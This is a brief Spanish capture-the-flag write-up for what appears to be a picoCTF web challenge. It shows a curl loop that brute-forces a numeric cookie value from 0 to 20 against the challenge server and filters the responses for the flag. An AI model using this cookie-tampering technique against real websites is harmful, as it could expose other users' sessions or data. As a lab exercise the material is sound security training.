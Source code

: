 ## Objetivo

## Solución
Podemos ver que al poner un numero nos da una cookie diferente, por lo que podemos hacerlo por fuerza bruta y probar con los número 0 al 20. De eso tomamo las que contengan pico
```
for i in {0..20}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep "pico"

```
## Notas adicionales

## Referencias
